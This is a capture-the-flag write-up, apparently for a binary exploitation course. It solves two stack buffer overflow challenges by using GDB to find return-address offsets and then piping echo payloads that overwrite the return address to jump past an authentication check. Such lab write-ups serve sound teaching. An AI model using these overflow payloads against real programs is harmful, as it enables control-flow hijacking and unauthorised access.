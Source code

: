 # Tricky Control Hijack

## Tricky Control Hijack (easy)

1. GDB -> `disas win_authed` -> the address of instruction after auth check is **0x40203e**
2. As told in the debug output, the return address from challenge() is stored at 56 bytes from start of input buffer.

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x3e\x20\x40\x00\x00\x00\x00\x00" | /challenge/binary-exploitation-control-hijack-2-w
    ```

## Tricky Control Hijack (hard)

1. In gdb, `disas win_authed` and `disas main`, we get to know:
    - Instruction after auth check is at **0x00000000004021de**
    - challenge() returns at **0x0000000000402441**

2. Set a breakpoint `b *challenge+148`, run and give a short string of a's as input
3. `info frame` -> rbp is at **0x7ffd1df81e00**
4. `x/100xg $rbp-200`:
    - input buffer starts at **0x7ffd1df81db0**, which is **rbp-0x50** = rbp-80
    - return address is stored at **0x7ffd1df81e08**, which is **rbp+0x8** = rbp+8
5. 88 a's followed by desired address:

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xde\x21\x40\x00\x00\x00\x00\x00" | /challenge/binary-exploitation-control-hijack-2 
    ```
